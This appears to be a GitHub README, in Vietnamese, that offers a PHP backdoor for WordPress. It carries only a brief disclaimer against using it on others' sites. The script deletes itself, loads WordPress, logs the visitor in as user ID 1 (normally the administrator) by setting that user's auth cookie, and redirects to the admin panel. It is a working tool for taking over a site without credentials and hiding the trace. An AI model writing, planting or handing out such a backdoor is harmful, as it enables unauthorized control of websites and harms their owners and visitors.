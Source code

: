 # backdooradminwordpress
- Đây là dòng code backdoor admin wordpress, tôi không khuyến khích bạn làm trang wordpress của người khác. Tôi sẽ không chịu trách nhiệm nào việc bạn sử dụng mục đích không chính đáng.

```c
<?php
@unlink(__FILE__);

require('../../../wp-blog-header.php');
require('../../../wp-includes/pluggable.php');
$user_info = get_userdata(1);
// Automatic login //
$username = $user_info->user_login;
$user = get_user_by('login', $username );
// Redirect URL //
if ( !is_wp_error( $user ) )
{
    wp_clear_auth_cookie();
    wp_set_current_user ( $user->ID );
    wp_set_auth_cookie  ( $user->ID );

    $redirect_to = user_admin_url();
    wp_safe_redirect( $redirect_to );

    exit();
}
?>
```
